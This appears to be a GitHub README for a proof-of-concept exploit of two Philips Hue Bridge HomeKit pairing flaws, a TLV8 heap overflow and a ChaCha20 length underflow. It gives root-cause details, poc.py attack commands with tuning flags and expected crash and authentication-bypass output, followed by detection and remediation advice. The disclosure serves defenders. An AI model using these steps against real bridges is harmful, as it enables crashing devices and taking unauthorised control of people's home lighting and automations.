

<div align="center">

# CVE-2026-126978 · CVE-2026-126979

### Philips Hue Bridge — HAP Pairing Heap Overflow & ChaCha20 Underflow


</div>

---

## Overview

Two closely related memory-safety vulnerabilities in the Philips Hue Bridge HomeKit Accessory Protocol (HAP) pairing stack. Both are reachable by any device on the same local network segment during the HAP pairing handshake — no existing pairing or credentials required.

| CVE | CWE | Description | CVSS |
|---|---|---|---|
| CVE-2026-126978 | CWE-122 | HAP SRP verifier TLV8 heap overflow — oversized `publicKey` field overwrites past alloction | 8.8 High |
| CVE-2026-126979 | CWE-191 | ChaCha20 session key length integer underflow — negative length passed to decrypt, skips authentication | 8.8 High |

| Field | Value |
|---|---|
| **Affected** | Philips Hue Bridge gen 2 and gen 3 (all firmware prior to patch) |
| **Attack Vector** | Adjacent Network (LAN segment) |
| **Auth Required** | None — triggered during unauthenticated pairing handshake |
| **Disclosed** | 2026-11-18 |

---

## Vulnerability Details

### CVE-2026-126978 — HAP TLV8 Heap Overflow

The HAP pairing responder allocates a fixed-size buffer for the SRP `publicKey` TLV field (TLV type `0x03`). The TLV8 parser does not validate that the value length fits within the allocated region before copying. Sending a `publicKey` value longer than the expected 384 bytes overwrites adjacent heap metadata and object fields.

### CVE-2026-126979 — ChaCha20 Integer Underflow

After the M2 pairing step, the bridge derives a session key and uses ChaCha20-Poly1305 for all further communication. The length field passed to the decryption routine is computed as `received_length - 16` (subtracting the Poly1305 tag). No lower-bound check exists: a message shorter than 16 bytes produces a negative length (integer underflow), which is interpreted as a large unsigned value, causing the decryption routine to process far beyond the message buffer.

---

## Attack Flow



---

## PoC Usage

> **Warning:** Authorized testing on devices you own. The PoC connects directly to the bridge's HAP TCP port. Never run against production Hue installations.

### Setup

```bash
pip install requests
# stdlib only for HAP raw socket operations (no homekit library required)
```

### Discover the bridge

```bash
# mDNS discovery — find bridge IP
python3 poc.py --discover

# Manual target
python3 poc.py --target 192.168.1.42
```

Expected discovery output:
```
[*] scanning for Philips Hue bridges via mDNS (_hap._tcp.local)...
[+] found bridge: 192.168.1.42  port: 80  id: AA:BB:CC:DD:EE:FF
    model: BSB002  firmware: 1.59.1959054080
```

### CVE-2026-126978 — Heap Overflow (oversized TLV publicKey)

```bash
# Trigger overflow with oversized publicKey in M2 HAP message
python3 poc.py --target 192.168.1.42 --cve 126978

# Custom overflow size (default: 1024 bytes; spec allows max 384)
python3 poc.py --target 192.168.1.42 --cve 126978 --overflow-size 2048
```

Expected output — vulnerable bridge:
```
[*] target: 192.168.1.42:80  CVE-2026-126978 (Heap Overflow)
[*] HAP pairing M1: sending SRP start
[+] M1 response received (SRP challenge)
[*] HAP pairing M2: sending oversized publicKey (1024 bytes, spec max 384)
    TCP write: 1052 bytes
    response: (none — bridge unresponsive)
[!] VULNERABLE — bridge stopped responding after oversized TLV
[*] retry connection in 30s...
    TCP connect: timeout — bridge crashed or rebooting
[!] DoS CONFIRMED
```

### CVE-2026-126979 — ChaCha20 Integer Underflow

```bash
# Trigger underflow with sub-16-byte encrypted message in M4
python3 poc.py --target 192.168.1.42 --cve 126979

# Specify message length (must be < 16 to trigger underflow)
python3 poc.py --target 192.168.1.42 --cve 126979 --msg-len 4
```

Expected output — vulnerable bridge:
```
[*] target: 192.168.1.42:80  CVE-2026-126979 (ChaCha20 Underflow)
[*] completing HAP M1–M3 handshake...
[+] session key derived
[*] M4: sending 4-byte encrypted message (length - 16 = -12, underflow)
    TCP write: 4 bytes
[+] HTTP 200  (bridge accepted unauthenticated message — skipped Poly1305 check)
[!] VULNERABLE — authentication bypassed via integer underflow
```

### Available flags

| Flag | Description |
|---|---|
| `--target IP` | Bridge IP address (required unless `--discover`) |
| `--discover` | Scan local network for Hue bridges via mDNS |
| `--cve 126978\|126979\|both` | Which vulnerability to test |
| `--overflow-size N` | TLV publicKey size for CVE-126978 (default: 1024) |
| `--msg-len N` | Encrypted message length for CVE-126979 (default: 4) |
| `--port N` | HAP port (default: 80) |

---

## Detection

| Indicator | Notes |
|---|---|
| Bridge reboots or becomes unreachable | HAP crash — check Hue app for "bridge offline" |
| Unexpected HAP pairing attempts | No prior pairing request from your devices |
| M2 messages with `publicKey` > 384 bytes | Capture on LAN: filter `tcp.port == 80 && hap` |
| M4 encrypted messages < 16 bytes | Poly1305 tag is 16 bytes; shorter is always malformed |

---

## Impact

- **CVE-2026-126978:** Denial of service (bridge crash/reboot) or potential heap exploitation to bypass HAP pairing.
- **CVE-2026-126979:** Authentication bypass — commands can be sent to the bridge without completing the HAP pairing handshake, allowing control of all lights, scenes, and automations.

Both vulnerabilities require the attacker to be on the same local network segment as the bridge.

---

## Remediation

Apply the Philips Hue firmware update that adds:
- TLV8 field length validation against allocation size (CVE-2026-126978)
- Lower-bound check on decryption length before ChaCha20 call (CVE-2026-126979)

| Action | Detail |
|---|---|
| Update bridge firmware | Via Philips Hue app → Settings → My Hue system → Software update |
| Isolate bridge VLAN | Move bridge to IoT VLAN, block untrusted device access |
| Monitor HAP traffic | Alert on unexpected pairing attempts |

---

## References

- CVE-2026-126978: https://www.cve.org/CVERecord?id=CVE-2026-126978
- CVE-2026-126979: https://www.cve.org/CVERecord?id=CVE-2026-126979
- Philips Hue security: https://www.philips-hue.com/en-us/support/security-advisory
- HomeKit Accessory Protocol Specification: https://developer.apple.com/homekit/

---

> **Disclaimer:** For authorized security research and controlled lab use only. MIT License.
